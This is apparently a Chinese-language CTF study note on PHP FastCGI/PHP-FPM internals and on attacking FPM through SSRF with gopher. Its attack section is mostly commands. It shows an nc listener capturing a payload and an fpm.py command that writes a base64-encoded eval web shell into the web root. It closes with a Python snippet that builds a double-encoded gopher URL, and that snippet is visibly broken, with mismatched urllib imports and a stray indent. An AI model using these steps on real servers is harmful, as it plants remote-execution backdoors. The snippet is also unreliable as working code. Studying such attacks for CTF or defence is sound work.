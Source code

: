 

```
当Apache收到用户对 index.php 的请求后，如果使用的是CGI，会启动对应的 CGI 程序，对应在这里就是PHP的解析器。接下来PHP解析器会解析php.ini文件，初始化执行环境，然后处理请求，再以规定CGI规定的格式返回处理后的结果，退出进程，Web server再把结果返回给浏览器。这就是一个完整的动态PHPWeb访问流程。
```

#### 总结 

对于php中，web访问顺序：

web浏览器------>web中间件(web服务器)------->php服务器----->数据库

下面是Nginx FastCGI的运行原理

![img](https://z3eyond-top-1304266053.cos.ap-chengdu.myqcloud.com/typora/202202271702127.png)

##  FastCGI协议的分析

## PHP-FPM

##  FPM任意代码执行

##  FPM未授权访问

直接看p神的文章：https://www.leavesongs.com/PENETRATION/fastcgi-and-php-fpm.html

没必要搬过来

##  SSRF直接对FPM/FastCGI的攻击

以CTFHUB上的ssrf题为例子，就是利用`gopher`协议打

###  方法一：

利用p神的脚本(利用`fcgi_exp 工具`)

我们在本机监听9000端口，然后运行`fpm.py`将恶意FastCGI协议报文数据打在本机的9000端口，保存为exp.txt

```
# 监听9000端口
nc -lvvp 9000 > exp.txt

# 运行`fpm.py`
python3 fpm.py 127.0.0.1 /var/www/html/index.php -c "<?php system('echo PD9waHAgZXZhbCgkX1BPU1Rbd2hvYW1pXSk 7Pz4 | base64 -d > /var/www/html/shel1.php');die('-----made by pniu----- ');?>"
```

然后构造gopher协议,二次编码

```python
from urllib import quote
with open('exp.txt') as f:
	pld = f.read()
 a="gopher://127.0.0.1:9000/_" + quote(pld)
print(urllib.parse.quote(a))

```
